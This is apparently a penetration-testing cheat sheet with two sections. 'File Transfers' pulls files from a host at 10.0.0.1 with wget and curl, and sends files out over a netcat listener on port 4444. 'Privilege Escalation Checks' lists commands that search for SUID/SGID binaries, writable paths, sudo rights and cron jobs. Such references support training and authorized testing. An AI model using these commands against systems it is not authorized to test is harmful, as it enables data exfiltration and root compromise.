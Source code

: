 ### File Transfers

```bash
# Start a simple HTTP server
python -m http.server 8000
python -m SimpleHTTPServer 8000  # Python 2

# Download files with wget
wget http://10.0.0.1:8000/file.txt

# Download files with curl
curl -O http://10.0.0.1:8000/file.txt

# Transfer with netcat (receiver)
nc -lvnp 4444 > file.txt

# Transfer with netcat (sender)
nc 10.0.0.1 4444 < file.txt

# Base64 encode/decode for transfer
cat binary_file | base64 > encoded.txt
cat encoded.txt | base64 -d > binary_file
```

### Privilege Escalation Checks

```bash
# Find SUID binaries
find / -perm -u=s -type f 2>/dev/null

# Find writable directories
find / -writable -type d 2>/dev/null

# Find world-writable files
find / -perm -2 -type f 2>/dev/null

# Check for sudo permissions
sudo -l

# Check running processes
ps aux

# Check for cron jobs
ls -la /etc/cron*
cat /etc/crontab

# Check for unusual SUID files
find / -user root -perm -4000 -print 2>/dev/null

# Check for unusual SGID files
find / -group root -perm -2000 -print 2>/dev/null
```
